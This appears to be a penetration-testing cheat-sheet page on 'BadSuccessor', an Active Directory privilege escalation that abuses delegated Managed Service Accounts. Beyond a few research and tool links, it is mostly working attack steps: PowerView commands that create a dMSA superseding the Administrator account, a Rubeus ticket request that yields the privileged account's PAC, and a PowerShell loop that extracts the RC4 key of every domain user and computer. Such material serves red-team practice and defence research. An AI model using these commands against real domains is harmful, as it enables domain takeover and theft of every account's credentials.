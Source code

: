 ```yaml
---
description: Abusing dMSA to Escalate Privileges in Active Directory
---
```


# BadSuccessor

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
- [https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/](https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/)

Enumerate OUs where we can create child objects:

```
PV > Get-DomainObjectAcl -LDAPFilter "(objectClass=organizationalUnit)" -Where "ActiveDirectoryRights contains CreateChild"
```

Create a dMSA account with a privileged account in the `msDS-ManagedAccountPrecededByLink` property:

```
PV > Add-DomainDMSA -Identity mydmsa -PrincipalsAllowedToRetrieveManagedPassword j.doe -SupersededAccount Administrator
PV > Get-DomainDMSA mydmsa
```

Ask for a TGT containing the privileged account PAC:

```
Cmd > Rubeus.exe asktgs /targetuser:mydmsa$ /service:krbtgt/megacorp.local /dmsa /opsec /nowrap /ticket:<JDOE_TGT>
```

Request TGT and grep for "previous keys" (from `KERB-DMSA-KEY-PACKAGE` structure), which is actually current RC4 of the superseded account, for all domain users and computers in loop:

```powershell
$domain = Get-ADDomain
$dmsa = "CN=mydmsa,CN=Managed Service Accounts,$($domain.DistinguishedName)"
$allDNs = @(Get-ADUser -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName) `
        + @(Get-ADComputer -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName)
$allDNs | % {
    Set-ADObject -Identity $dmsa -Replace @{ "msDS-ManagedAccountPrecededByLink" = $_.DN }
    $res = Invoke-Rubeus asktgs /targetuser:mydmsa$ /service:"krbtgt/$($domain.DNSRoot)" /opsec /dmsa /nowrap /ticket:$kirbi
    $rc4 = [regex]::Match($res, 'Previous Keys for .*\$: \(rc4_hmac\) ([A-F0-9]{32})').Groups[1].Value
    "$($_.sAMAccountName):$rc4"
}
```




## Tools

- [https://github.com/akamai/BadSuccessor](https://github.com/akamai/BadSuccessor)
- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1)
